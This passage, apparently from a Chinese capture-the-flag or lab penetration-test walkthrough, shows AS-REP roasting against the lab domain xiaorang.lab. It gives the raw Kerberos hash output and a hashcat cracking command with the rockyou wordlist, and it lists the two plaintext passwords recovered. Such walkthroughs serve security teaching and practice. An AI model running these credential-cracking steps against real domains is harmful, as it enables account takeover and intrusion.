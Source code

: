 ```bash
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:7554860b14de1c569e8a24e23c902448$fa2aefe60b434a6974a46d86a6a7e4c20326276907fc9323fcad51d566a11ef6ab24a17576524ddb981eacfb3a1b1679e01c267751d44c42f3be179394fa727388ebc29ead8d665cc76ff647a7f25ac896f16ed72e5711092cf4cf7930b98ead6e1ac1b5ae4ef2d3538c69799b835e6c0e10f4684168ead6e4e149ebb25092806dbc61f31fb06f0f380bde955d0592b67230d3a952a7de1bddab516e85fb229c86643adc2737bce896f81a623dd299e3c8788c238c32860e7aca956b44571896cff077ca72c93a9fb673aec1f035e5f41d2f2862809f7f0c6967171478e0e72380e0c91f7a4c4c2e13875e3a
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lihongxia@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangyulan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chenjianhua@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
```

其中有两个用户的 Kerberos 哈希

- lixiuying
- huachunmei

## Kerberos 哈希爆破

使用 `hashcat` 配合 `rockyou.txt` 进行爆破

```bash
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -d 1 -O -a 0 -m 18200 .\hash.txt .\dics\rockyou.txt
......
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:7554860b14de1c569e8a24e23c902448$fa2aefe60b434a6974a46d86a6a7e4c20326276907fc9323
3fcad51d566a11ef6ab24a17576524ddb981eacfb3a1b1679e01c267751d44c42f3be179394fa727388ebc29ead8d665cc76ff647a7f25ac896f16ed72e5711092cf4
4cf7930b98ead6e1ac1b5ae4ef2d3538c69799b835e6c0e10f4684168ead6e4e149ebb25092806dbc61f31fb06f0f380bde955d0592b67230d3a952a7de1bddab516e
e85fb229c86643adc2737bce896f81a623dd299e3c8788c238c32860e7aca956b44571896cff077ca72c93a9fb673aec1f035e5f41d2f2862809f7f0c6967171478e0
0e72380e0c91f7a4c4c2e13875e3a:1qaz2wsx
......
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fb
be0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad
d34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de
e761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df44
466a4ae689de516da594307dffd2:winniethepooh
```

得到两个凭据

- `huachunmei:1qaz2wsx`
- `lixiuying:winniethepooh`

## 172.22.15.35 获取域内信息
